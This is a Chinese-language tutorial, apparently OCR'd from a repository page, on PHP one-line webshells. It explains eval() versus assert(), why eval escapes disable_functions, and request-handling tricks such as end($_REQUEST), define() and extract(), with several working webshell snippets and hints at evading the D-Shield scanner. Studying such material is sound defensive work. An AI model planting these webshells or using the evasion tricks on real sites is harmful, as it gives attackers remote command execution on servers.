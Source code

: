 `$_POST[' ']` 接收我们传递的数据，并把接收的数据传递给一句话木马中执行命令的函数，进而执行命令，`system()`是对系统进行命令操作，而`eval()`函数是对PHP网页进行操作。
所以可以组合为:
```php
<?php 
eval(system($_POST[1]));
```


**代码执行与加密函数**

`eval()`和 `assert()`的区别:

|函数|含义|举例|区别|
|---|---|---|---|
|eval()|把字符串作为PHP代码执行|```<?php eval(@urldecode($_GET['1']));```| `eval` 是一个 `语言构造器` 而不是一个函数|
|assert()|检查一个`断言`是否为 FALSE。如果 `断言`是字符串，它将会被 assert() 当做 PHP 代码来执行|```<?php assert(@urldecode($_GET['1']));```|`assert` 是一个 `函数`|


**什么是语言构造器、什么是函数。**

- 语言结构：就是PHP语言的关键词，语言语法的一部分；它不可以被用户定义或者添加到语言扩展或者库中；它可以有也可以没有变量和返回值。 

- 函数：    由代码块组成的，可以复用。

打个比方 语言构造类似于C/C++ 直接与底层语言调用，函数类似于JAVA要过一层解析器。

举例：
```php
<?php
$a = "eval";
$a(@$_GET['a']);  //执行失败

eval(@$_GET['a']); //执行成功
?>
```
> 因为eval是一个语言构造器而不是一个函数，不能被可变函数调用。也无法用php.ini中的disable_functions禁止掉。

可见`eval`这么危险，肯定是被特 别 关 注 的。但是代表见到就杀，其实在网页中也有很多常见的例子，例如和数据库字段中和日后计算进行的代码存储方面很有用。举个[eval()bypassD盾的栗子]()

 如果实在不行可以找一些代替函数或者 奇 技 淫 巧 绕过。 

## 木马中的常见传值或绕过函数

|函数|含义|举例|木马示例|
|---|---|---|---|
|end()|将数组的内部指针指向最后一个值|`<?php $a=array(1,2,3,4,5,6,7);echo end($a);?>`|`<?php eval(end($_REQUEST)); ?>`|
|$_REQUEST|默认情况下包含了 `$_GET`，`$_POST` 和 `$_COOKIE` 的数组，默认情况下用于代替传统get和post|`$_REQUEST['a']/$_REQUEST`|`$_REQUEST['shell']`|
|define()| 定义一个常量|`define ($a,$b,$c)`|`<?php define("shell","$_REQUEST[shell]")eval(shell);?>`|
|extract()|从数组中将变量导入到当前的符号表|`extract($var_array, EXTR_PREFIX_SAME, "wddx");`|`<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>`|
||||

